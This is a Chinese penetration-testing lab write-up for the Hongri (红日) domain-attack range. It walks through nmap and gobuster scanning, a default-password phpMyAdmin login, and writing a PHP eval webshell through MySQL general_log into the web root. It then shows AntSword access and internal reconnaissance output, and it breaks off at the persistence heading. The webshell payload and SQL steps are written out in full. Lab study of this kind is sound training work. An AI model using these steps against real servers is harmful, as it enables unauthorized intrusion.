# 前言
	尝试自己做一遍难度一的域渗透，拿下黄金票据

前置准备：
自备	
	kali Linux 系统       NAT模式
红日实验室官网下载
	win 7 Web服务器  NAT模式/仅主机模式
	win 2003 域成员    仅主机模式
	win 2008 域控       仅主机模式

虚拟机配置：
kali能正常上网，并且在win7关闭防火墙的情况下，能ping通，但是ping不通另外两台
win7能互pingkali，也能ping通另外两个域控主机
# 信息收集

*** 配置信息

| 系统      | 网卡  | IP地址           |
| ------- | --- | -------------- |
| kali    | vm8 | 192.168.99.130 |
| win7    | vm8 | 192.168.99.128 |
| win7    | vm2 | 192.168.52.143 |
| win2003 | vm2 | 192.168.52.141 |
| win2008 | vm2 | 192.168.52.138 |
## 网络拓扑探测


```bash
# 用nmap  扫描网段内存活的主机信息
nmap -sn 192.168.99.0/24
```
***分析信息


	结论：一共五台设备上线，.2,.1,.254排除，大概率是网关地址，.130则是本机kali的地址，现在剩下的也就是一台存活主机了，再尝试扫描一下他都开启了哪些端口服务。
## 端口与服务扫描
```bash
# 全端口扫描,SYN半开扫描，更好的隐藏性，最全面的扫描，时间稍微长一点
nmap -sV -sS -T4 -O -p- 192.168.99.128
```
***分析信息


	结论：对方开启了80与3306的端口，其他暂未探测到，应该是被防火墙滤掉了，中间件是apache 2.4.23的，MySQL数据库（3306）
	系统则是Windows server 2008和Windows 7，他们的相似性很高，所以会出现这两个。

## Web信息收集
```
# curl 测试
curl -I http://192.168.99.128     # 查看返回状态码，200，正常访问到

# 或 查看网页信息
curl http://192.168.99.128

# 以上测试通过就用浏览器访问，进行下一步打点侦察
```


	结论：返回状态码200，正常访问。

***网页信息收集

重大发现！

	敏感信息泄露：
	网站地址根目录，以及当前网页地址；
	MySQL测试连接窗口，可以尝试弱口令登录试试；
	网页中间有个默认支持函数样例，打开可以看到很多敏感执行函数，并且下方有函数检测机制，可作为备选。

## 目录扫描与敏感信息发现
```bash
# 使用kali自带工具 gobuster ；这个路径是存放常见网站目录的文件，-x 后续的则是需要探测的文件
gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,zip,rar,bak -u http://192.168.99.128
```



		结论：扫到了两个phpMyAdmin的子目录，尝试浏览器访问一下，是否有可以利用的漏洞点


# 漏洞利用
## phpmyAdmin弱口令登录
```bash
# 目标发现！！！ 是个登录的，尝试弱口令手工测试，或者借助phpMyAdmin多线程爆破工具，用burp也可以，但是需要设置token设置抓包爆破

# 弱口令集：
# root 123456 admin admin123 root123 user password等
```



	结论：是个数据库登陆界面，这个界面用的则是PHP study（小皮面板）的，对方的网站是基于这个搭建的。
	经过测试，用户名和密码都是root

***登录后的界面


	结论：MySQL数据库管理后台！！！可以直接做webshell一句话木马了；
	并且数据库的版本，名词以及一些信息都展示出来了
	点击SQL，进行SQL命令写入

## MySQL日志写入WebShell
```bash
# 检查MySQL数据库能否写入文件
show variables like 'secure_file_priv';   # 显示NULL则是无法写入文件，不能写入的话就看一下general_log的这个能否写入，不能写入就把这个general_log的文件写入权限打开

# 检查都有哪些log日志文件
show variables like '%log%';              # 主要检查general_file的路径 和generla_log的开启状态，OFF则是没有开启全局日志

# 或者不做第二步，直接查general_log的文件
show variables like 'general_log';        # 查看日志是否开启，off是关闭
show variables like 'general_log_file';   # 查看日志存放路径

```








	结论：secure_file_priv文件不能写入，检查另外一个日志文件，显示是关闭状态，再查看了一下这个日志存放的路径，不在WWW根目录里面，我们访问不到。
	解决方案：开启log的功能，再把路径修改成WWW下即可


***修改SQL配置
```bash
# 开启general_log日志能功能；
set global general_log = 'ON';

# 修改日志存放位置，并且能将webshell.php这个文件包含进去
set global general_log_file = 'C:/phpStudy/WWW/webshell.php';

# 一句话木马，用于远程连接
select '<?php @eval($_POST["cmd"]); ?>';

```




	结论：成功将其写入进去，可以用蚂蚁剑远程连接了。

## 蚁剑连接与权限确认
	
	注：打开蚂蚁剑，空白处右键<添加数据>，有个url地址，将目标服务器的地址写进去，我的是http://192.168.99.128/webshell.php
	密码为之前写入的一句话木马里面的cmd，点击测试连接，正常情况下会链接上的，打开之后就是这个样子


	结论：这些是目标服务器的网站结构，可以做一些操作，详情就右键看一下，比如上传个cs工具，用于内网渗透，攻击域内靶机。

***虚拟终端
	右键打开虚拟终端，没有的话就在插件市场下载一下就行
```bash
# 查看当前主机账户信息，一般看到这个路径就知道是管理员了
whoami

# 查看本用户
net user

# 查看IP地址，有什么网络信息，双网卡之类的
ipconfig                # 会看到两张网卡，一个99的，一张52的，也就是内网靶机

# 查看系统信息
systeminfo
```


***获取到的系统信息
```bash
# 从终端中执行的命令

C:\phpStudy\WWW> whoami             # 是个域管理员

god\administrator

C:\phpStudy\WWW> net user

\\STU1 的用户帐户

-------------------------------------------------------------------------------

Administrator            Guest                    liukaifeng01             

命令成功完成。

C:\phpStudy\WWW> ipconfig

Windows IP 配置

以太网适配器 本地连接 5:

   连接特定的 DNS 后缀 . . . . . . . : localdomain

   本地链接 IPv6 地址. . . . . . . . : fe80::a818:f9a6:5a0d:bbb9%26

   IPv4 地址 . . . . . . . . . . . . : 192.168.99.128    # web服务器，外网环境

   子网掩码  . . . . . . . . . . . . : 255.255.255.0

   默认网关. . . . . . . . . . . . . : 192.168.99.2

以太网适配器 Npcap Loopback Adapter:

   连接特定的 DNS 后缀 . . . . . . . : 

   本地链接 IPv6 地址. . . . . . . . : fe80::b461:ccad:e30f:81ba%24

   自动配置 IPv4 地址  . . . . . . . : 169.254.129.186

   子网掩码  . . . . . . . . . . . . : 255.255.0.0

   默认网关. . . . . . . . . . . . . : 

以太网适配器 本地连接 3:

   媒体状态  . . . . . . . . . . . . : 媒体已断开

   连接特定的 DNS 后缀 . . . . . . . : 

以太网适配器 本地连接 2:

   媒体状态  . . . . . . . . . . . . : 媒体已断开

   连接特定的 DNS 后缀 . . . . . . . : 

以太网适配器 本地连接:

   连接特定的 DNS 后缀 . . . . . . . : 

   本地链接 IPv6 地址. . . . . . . . : fe80::653d:23d6:de8d:ab50%11

   IPv4 地址 . . . . . . . . . . . . : 192.168.52.143      # 内网地址！！！

   子网掩码  . . . . . . . . . . . . : 255.255.255.0

   默认网关. . . . . . . . . . . . . : 192.168.52.2

隧道适配器 isatap.localdomain:

   媒体状态  . . . . . . . . . . . . : 媒体已断开

   连接特定的 DNS 后缀 . . . . . . . : localdomain

隧道适配器 isatap.{4DAEBDFD-0177-4691-8243-B73297E2F0FF}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开

   连接特定的 DNS 后缀 . . . . . . . : 

隧道适配器 isatap.{448DCBB5-7D61-4538-9C03-66B5CDAD1222}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开

   连接特定的 DNS 后缀 . . . . . . . : 

隧道适配器 isatap.{EC57C4EB-763E-4000-9CDE-4D7FF15DF74C}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开

   连接特定的 DNS 后缀 . . . . . . . : 

隧道适配器 isatap.{560BEAFC-DAC4-4687-A564-57790875DC43}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开

   连接特定的 DNS 后缀 . . . . . . . : 

C:\phpStudy\WWW> systeminfo

主机名:           STU1

OS 名称:          Microsoft Windows 7 专业版 

OS 版本:          6.1.7601 Service Pack 1 Build 7601

OS 制造商:        Microsoft Corporation

OS 配置:          成员工作站

OS 构件类型:      Multiprocessor Free

注册的所有人:     Windows 用户

注册的组织:       

产品 ID:          00371-177-0000061-85693

初始安装日期:     2019/8/25, 9:54:10

系统启动时间:     2026/4/14, 13:12:45

系统制造商:       VMware, Inc.

系统型号:         VMware Virtual Platform

系统类型:         x64-based PC

处理器:           安装了 1 个处理器。

                  [01]: AMD64 Family 25 Model 116 Stepping 1 AuthenticAMD ~3992 Mhz

BIOS 版本:        Phoenix Technologies LTD 6.00, 2020/11/12

Windows 目录:     C:\Windows

系统目录:         C:\Windows\system32

启动设备:         \Device\HarddiskVolume1

系统区域设置:     zh-cn;中文(中国)

输入法区域设置:   zh-cn;中文(中国)

时区:             (UTC+08:00)北京，重庆，香港特别行政区，乌鲁木齐

物理内存总量:     2,047 MB

可用的物理内存:   1,265 MB

虚拟内存: 最大值: 4,095 MB

虚拟内存: 可用:   3,209 MB

虚拟内存: 使用中: 886 MB

页面文件位置:     C:\pagefile.sys

域:               god.org                           # 是个域环境！！！要做横向移动了

登录服务器:       \\OWA                              # 域控制器

修补程序:         安装了 4 个修补程序。                # 四个补丁，很少！！！ 可能有漏洞

                  [01]: KB2534111                  

                  [02]: KB2999226

                  [03]: KB958488

                  [04]: KB976902

网卡:             安装了 5 个 NIC。

                  [01]: Intel(R) PRO/1000 MT Network Connection

                      连接名:      本地连接

                      启用 DHCP:   否

                      IP 地址

                        [01]: 192.168.52.143

                        [02]: fe80::653d:23d6:de8d:ab50

                  [02]: TAP-Windows Adapter V9

                      连接名:      本地连接 2

                      状态:        媒体连接已中断

                  [03]: Microsoft Loopback Adapter

                      连接名:      Npcap Loopback Adapter

                      启用 DHCP:   是

                      DHCP 服务器: 255.255.255.255

                      IP 地址

                        [01]: 169.254.129.186

                        [02]: fe80::b461:ccad:e30f:81ba

                  [04]: TAP-Windows Adapter V9

                      连接名:      本地连接 3

                      状态:        媒体连接已中断

                  [05]: Intel(R) PRO/1000 MT Network Connection

                      连接名:      本地连接 5

                      启用 DHCP:   是

                      DHCP 服务器: 192.168.99.254

                      IP 地址

                        [01]: 192.168.99.128

                        [02]: fe80::a818:f9a6:5a0d:bbb9

C:\phpStudy\WWW>
```

# 权限维持
